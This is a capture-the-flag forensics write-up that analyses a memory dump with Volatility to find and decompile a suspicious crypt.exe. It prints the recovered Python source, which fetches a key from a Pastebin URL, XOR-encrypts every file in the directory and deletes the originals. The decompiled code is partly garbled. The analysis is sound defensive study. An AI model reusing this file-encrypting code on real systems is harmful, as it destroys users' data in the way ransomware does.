



Got first blood for this challenge in the Student Category!!!


***



Given a memory dump and a packet captured

```
$ file *
memdump.mem:  Windows Event Trace Log
network.pcap: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```

***

# Searching for malicious processes

Use volatility to get the profile of the memory dump

```
$ vol.py -f memdump.mem imageinfo
Volatility Foundation Volatility Framework 2.6.1
INFO    : volatility.debug    : Determining profile based on KDBG search...
          Suggested Profile(s) : Win10x64_19041
                     AS Layer1 : SkipDuplicatesAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (tricky-malware/memdump.mem)
                      PAE type : No PAE
                           DTB : 0x1ad002L
                          KDBG : 0xf8016b618b20L
          Number of Processors : 2
     Image Type (Service Pack) : 0
                KPCR for CPU 0 : 0xfffff8016991a000L
                KPCR for CPU 1 : 0xffffdf01255c3000L
             KUSER_SHARED_DATA : 0xfffff78000000000L
           Image date and time : 2024-12-24 12:01:07 UTC+0000
     Image local date and time : 2024-12-24 20:01:07 +0800
```

Using the profile retrieved, list all the processes from the memory dump using `pstree`

```plaintext
$ vol.py -f memdump.mem --profile=Win10x64_19041 pstree
Volatility Foundation Volatility Framework 2.6.1
Name                                                  Pid   PPid   Thds   Hnds Time
-------------------------------------------------- ------ ------ ------ ------ ----
...
...
...
. 0xffffbc0ca6e1d080:userinit.exe                    4080    584      0 ------ 2024-12-24 11:52:16 UTC+0000
.. 0xffffbc0ca6eba340:explorer.exe                   2964   4080     72      0 2024-12-24 11:52:16 UTC+0000
... 0xffffbc0ca6be6340:crypt.exe                     5200   2964      3      0 2024-12-24 12:01:07 UTC+0000
.... 0xffffbc0ca7751300:conhost.exe                  5204   5200      6      0 2024-12-24 12:01:07 UTC+0000
.... 0xffffbc0ca6bd0080:crypt.exe                    6596   5200      4      0 2024-12-24 12:01:09 UTC+0000
... 0xffffbc0ca7580080:vmtoolsd.exe                  5788   2964     10      0 2024-12-24 11:52:43 UTC+0000
... 0xffffbc0ca77bc080:OneDrive.exe                  5948   2964     23      0 2024-12-24 11:52:44 UTC+0000
... 0xffffbc0ca80d6080:Wireshark.exe                 3936   2964     17      0 2024-12-24 12:00:30 UTC+0000
.... 0xffffbc0ca8047080:dumpcap.exe                  3288   3936      3      0 2024-12-24 12:00:50 UTC+0000
..... 0xffffbc0ca7573080:conhost.exe                 5896   3288      4      0 2024-12-24 12:00:50 UTC+0000
... 0xffffbc0ca734a080:SecurityHealth                5548   2964      3      0 2024-12-24 11:52:42 UTC+0000
 0xffffbc0ca5444140:csrss.exe                         492    476     12      0 2024-12-24 11:52:00 UTC+0000
 0xffffbc0ca690b080:FTK Imager.exe                   6136   6172     25      0 2024-12-24 11:56:16 UTC+0000
```

From the output above, `crypt.exe` was not a legit windows process by the name itself. The parent process of the `crypt.exe` was `explorer.exe` and [`userinit.exe`](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc939862(v=technet.10)?redirectedfrom=MSDN) was on top of that two processes.

***

# Dumping crypt.exe

Before dumping the executable, find the offset/physical address first.

```
$ vol.py -f memdump.mem --profile=Win10x64_19041 filescan | grep "crypt.exe"
Volatility Foundation Volatility Framework 2.6.1
0x0000bc0ca7eb88c0      1      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
0x0000bc0ca8856280      2      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
0x0000bc0ca885f6f0      9      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
```

There was three offset here, just pick one.

`vol.py -f memdump.mem --profile=Win10x64_19041 dumpfiles --dump-dir=. -Q 0xoffsethere`

***

# Decompiling crypt.exe

Need to check what language used to build the executable. A simple `strings` command will do for this.



As seen in the image above, there was some python library used in the executable.

So, decompile the executable using `pyinstxtractor` to get a .pyc file.

Then, put the .pyc file in https://pylingual.io/ to get the source code.

***

# Analysing crypt.py

```py
import os
import requests

def fetch_key_from_pastebin(url):
    """Fetch the encryption key from a Pastebin URL."""
    try:
        response = requests.get(url)
        response.raise_for_status()
        return response.text.strip()
    except requests.exceptions.RequestException as e:
        print(f'Error fetching key: {e}0')
    else:
        pass

def xor_encrypt_decrypt(data, key):
    """Encrypt or decrypt data using XOR with the given key."""
    key_bytes = key.encode('utf-8')
    key_length = len(key_bytes)
    return bytes([data[i] ^ key_bytes[i % key_length] for i in range(len(data))])

def process_file(file_path, key, encrypt=True):
    """Encrypt or decrypt a file and modify its extension."""
    try:
        with open(file_path, 'rb') as file:
            pass
    except Exception as e:
            data = file.read()
                processed_data = xor_encrypt_decrypt(data, key)
                if encrypt:
                    new_file_path = file_path + '.oiiaiouiiiai'
                else:
                    new_file_path = file_path.rsplit('.oiiaiouiiiai', 1)[0]
                with open(new_file_path, 'wb') as file:
                    file.write(processed_data)
                        os.remove(file_path)
                        print(f'Processed {file_path} -> {new_file_path}')
            print(f'Failed to process {file_path}: {e}')
if __name__ == '__main__':
    pastebin_url = 'https://pastebin.com/raw/PDXfh5bb'
    key = fetch_key_from_pastebin(pastebin_url)
    if not key:
        print('Failed to retrieve the key.')
        exit(1)
    for file_name in os.listdir():
        if not os.path.isfile(file_name):
            continue
        if file_name == os.path.basename(__file__):
            continue
        if file_name.endswith('.oiiaiouiiiai'):
            process_file(file_name, key, encrypt=False)
        else:
            process_file(file_name, key, encrypt=True)
```

What the program does was:

1. Encrypt all files in current directory using XOR with a key retrieved from an url
2. Change the encrypted file exntenson to `.oiiaiouiiiai`

***

# Flag

The flag can be found in the url initialized in the code (https://pastebin.com/raw/PDXfh5bb)

> WGMY{8b9777c8d7da5b10b65165489302af32}

***

# Findings/Notes

1. Somehow the pastebin url can be seen from the memory dump itself



Unavailable Pastebin URLs:
- https://pastebin.com/raw/sf3gviaw
- https://pastebin.com/raw/vr83t9s5
- https://pastebin.com/raw/hr1iwmqb
- https://pastebin.com/raw/qgwkpvxt
- https://pastebin.com/raw/YZbvFwjX
- https://pastebin.com/raw/pfhi0dB2

Available Pastebin URLs:
- https://pastebin.com/raw/PDXfh5bb (flag)
- https://pastebin.com/raw/2STTYftz

There's also a powershell command, but there's no powershell process running. So as ChatGPT said,
> "When a PowerShell process terminates, its memory might not be completely wiped. Residual strings or data structures from previously executed commands can remain in memory, particularly if the memory dump was taken soon after the process exited" - ChatGPT


2. Even if the `crypt.exe` was executed, the encrypted files that ends with `.oiiaiouiiiai` can not be found because there's nothing in the current directory except the executable itself.

Command used to run the executable
```
$ vol.py -f memdump.mem --profile=Win10x64_19041 cmdline
Volatility Foundation Volatility Framework 2.6.1
************************************************************************
crypt.exe pid:   5200
Command line : "C:\Users\user\Desktop\Blow\crypt.exe"
```


There's nothing in the **\Blow** directory
```
$ vol.py -f memdump.mem --profile=Win10x64_19041 filescan | grep "Blow"
Volatility Foundation Volatility Framework 2.6.1
0x0000bc0ca7eb7920  32768      1 R--rw- \Device\HarddiskVolume3\Users\user\Desktop\Blow
0x0000bc0ca7eb88c0      1      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
0x0000bc0ca8856280      2      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
0x0000bc0ca885cb30  32768      1 R--rwd \Device\HarddiskVolume3\Users\user\Desktop\Blow
0x0000bc0ca885f6f0      9      0 R--r-d \Device\HarddiskVolume3\Users\user\Desktop\Blow\crypt.exe
0x0000bc0ca88601e0  32768      1 R--rwd \Device\HarddiskVolume3\Users\user\Desktop\Blow
```